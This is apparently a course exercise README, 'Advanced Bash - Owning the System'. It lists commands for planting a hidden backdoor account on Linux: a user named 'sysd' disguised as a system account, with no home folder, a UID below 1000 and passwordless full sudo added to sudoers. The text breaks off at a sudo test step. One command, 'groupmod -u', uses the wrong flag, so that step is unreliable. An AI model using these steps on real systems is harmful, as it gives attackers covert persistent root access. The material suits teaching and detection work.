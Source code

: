 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 